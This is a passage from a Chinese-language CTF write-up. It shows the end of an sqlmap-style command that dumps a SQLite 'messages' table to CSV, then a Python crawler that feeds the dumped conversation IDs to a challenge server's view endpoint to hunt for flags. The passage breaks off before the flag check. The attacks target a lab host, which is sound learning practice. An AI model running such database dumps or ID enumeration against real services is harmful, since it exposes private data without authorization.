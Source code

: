```
$ ... -T 'messages' -C 'id,shown' --dump
[18:00:57] [INFO] table 'SQLite_masterdb.messages' dumped to CSV file '/path/to/messages.csv'
```

哥们！！！库脱下来了！！查数据！

![](https://pic.imgdb.cn/item/672f3354d29ded1a8c614714.png)

访问`/view?conversation_id=cb30e667-1ba7-4863-a9c9-8773dfaac619`，拉到页面最底部即可获得flag。

![](https://pic.imgdb.cn/item/672f33d1d29ded1a8c61db83.png)

## 千里挑一

> 小 Q 看着这些聊天记录，突然发现里面好像有 flag……

那就藏在剩下的聊天记录里。直接写爬虫开爬。

```python
import pandas as pd
import requests

# CSV文件路径
csv_file_path = '/path/to/messages.csv'

# 目标URL的基础部分
base_url = 'https://chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id='

# HTTP头部信息
headers = {
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate, br, zstd',
    'Accept-Language': 'zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7',
    'Cache-Control': 'no-cache',
    'Connection': 'keep-alive',
    'Cookie': '_ga=GA1.1.1498233831.1719196175; _ga_Q8WSZQS8E1=GS1.1.1730476974.5.0.1730476982.52.0.1779972184; _ga_R7BPZT6779=GS1.1.1731134815.10.1.1731135175.60.0.794122736; session=YuShengJun',
    'DNT': '1',
    'Host': 'chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443',
    'Pragma': 'no-cache',
    'Referer': 'https://chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443/list',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36',
    'sec-ch-ua': '"Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': '"Linux"'
}

# 读取CSV文件
df = pd.read_csv(csv_file_path)

# 检查每个ID
for index, row in df.iterrows():
    conversation_id = str(row['id'])
    url = base_url + conversation_id
    response = requests.get(url, headers=headers)
    
    # 检查响应中是否包含以flag{开头，以}结尾的字符串
```